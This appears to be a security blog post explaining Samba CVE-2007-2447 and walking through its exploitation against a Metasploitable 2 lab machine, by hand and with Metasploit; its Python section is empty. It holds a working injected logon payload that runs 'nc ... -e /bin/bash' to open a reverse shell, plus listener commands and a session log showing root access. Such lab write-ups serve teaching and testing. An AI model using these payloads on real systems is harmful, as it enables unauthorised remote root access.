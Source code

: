 ```yaml
---
layout: post
title:  "Samba CVE2007-2447"
categories: [Technical]
tags: [command execution, exploit, python]
draft: false
---
```


### Introduction

On May 7th 2007, a vulnerability found within Samba was reported via email to their security@samba.com mail alias. This bug was initially reported against the anonymous calls to the `SamrChangePassword()` [MS-RPC](https://en.wikipedia.org/wiki/Microsoft_RPC) function in combination with the "username map script" `smb.conf` option (which is not enabled by default). The bug was disclosed publicly on May 14th.

However, after investigation from developers at Samba they found the bug to be much broader noting that it also impacted remote printer & file share management. The root cause is due to passing unfiltered user input provided by MS-RPC calls to `/bin/sh` when invoking external scripts defined in `smb.conf`. Interestingly the vulnerability found with the "username map script" can be exploited without authenticatiton unlike the bug found in remote printer & file share management scripts, those require an authenticated session.

### So, how does it work?

In general there isn't much to discuss regarding this bug, it's fairly simple - by sending [shell metacharacters](http://faculty.salina.k-state.edu/tim/unix_sg/shell/metachar.html) as the username we trigger the bug and thus allowing us to send aribitary commands to the device. As we mentioned earlier, no authenication is required to exploit this due to the fact that the option is used to map usernames prior to authentication and thus we can exploit this whilst being unauthenticated.

### Code Review

Sadly I was unable to find the source code that was affected for this CVE thus I cannot do a review on it, I'm not sure if anyone has it but if you do I'd greatly appreciate it! You can contact me on Twitter which is linked at the bottom of the page.

### Exploit

We can exploit this vulnerability using the [Metasploit module](https://www.exploit-db.com/exploits/16320/) however, this is another exploit that is easy to execute manually. As per usual we will exploit the vulnerability with Metasploit, manually and write our own script for the exploit.

It's worth noting in the below examples I am using [Metasploitable 2](https://metasploit.help.rapid7.com/docs/metasploitable-2)

#### Manual Exploitation

Exploiting this one manually has a few steps but it's not too tricky, it's not exactly efficient but it does the trick! Firstly we need to setup a listening on netcat, open a termninal and use `netcat -nvlp` the actual listener is defined with `l` so you might be wondering what all of this means? Well, `-n` tells Netcat not to resolve names, `-v` specifies to give us a verbose output when printing, `-l` specifies to create the listener as we mentioned and `-p` will create that listener on *any* local port.

```
root@LinxzSecKali:~# netcat -nvlp 4444
listening on [any] 4444 ...
```

Once we have the listener setup we are now going to open a new terminal and check the victims shares, we can do this with `smbclient -L //192.168.139.133` where `-L` will get a list of shares available on a host. We're using Metasploitable 2 as mentioned.

```
root@LinxzSecKali:~# smbclient -L //192.168.139.133
Enter WORKGROUP\root's password: 
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	tmp             Disk      oh noes!
	opt             Disk      
	IPC$            IPC       IPC Service (metasploitable server (Samba 3.0.20-Debian))
	ADMIN$          IPC       IPC Service (metasploitable server (Samba 3.0.20-Debian))
Reconnecting with SMB1 for workgroup listing.
Anonymous login successful

	Server               Comment
	---------            -------

	Workgroup            Master
	---------            -------
	WORKGROUP            METASPLOITABLE
  
```
We're going to focus on the `tmp` folder & attempt to connect to the victim using `smbclient  //192.168.139.133/tmp` now you should receive the following back from the target.

```
root@LinxzSecKali:~# smbclient  //192.168.139.133/tmp
Enter WORKGROUP\root's password: 
Anonymous login successful
```

Next, we need to setup the reverse shell, you should see a prompt that looks like this after the previous command `smb: \>` this is good news, next we need to send `logon` to the target with logon ```logon/=`nc 192.168.139.135 4444 -e /bin/bash``` this time make sure you use your machines ip & not the targets! If we switch back to our terminal we created the netcat listener in you should see this.

```
root@LinxzSecKali:~# netcat -nvlp 4444
listening on [any] 4444 ...
connect to [192.168.139.135] from (UNKNOWN) [192.168.139.133] 36513
```
Now you can execute commands and see that we've owned the machine! As I mentioned, there's a few steps for us to carry out but it's all relatively simple stuff. If in doubt just use `--help` :p


#### Metasploit Exploitation

Load Metasploit using `msfconsole` then run `use exploit/multi/samba/usermap_script` this will tell Metasploit to use that module, next you will need to set the `rhost` with the IP address of your target, you don't need to specify another payload for the bind shell as the Metasploit module will do this for you on your machines IP & port 4444. That's it! You now have a shell with whatever privliges the account Samba is running on has.

```
msf > use exploit/multi/samba/usermap_script
msf exploit(multi/samba/usermap_script) > show options

Module options (exploit/multi/samba/usermap_script):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST                   yes       The target address
   RPORT  139              yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf exploit(multi/samba/usermap_script) > set RHOST 192.168.139.133
RHOST => 192.168.139.133
msf exploit(multi/samba/usermap_script) > exploit

[*] Started reverse TCP double handler on 192.168.139.135:4444 
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo iogIbtev3qMtahR5;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "iogIbtev3qMtahR5\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (192.168.139.135:4444 -> 192.168.139.133:44662) at 2018-11-17 15:35:19 +0000

id;
uid=0(root) gid=0(root)
whoami;
root
```


### Python Exploitation



### References

[Samba Security CVE2007-2447](https://www.samba.org/samba/security/CVE-2007-2447.html)

[Rapid 7 Metasploit Module](https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script)

[CVE Details 2007-2447](https://www.cvedetails.com/cve/cve-2007-2447)
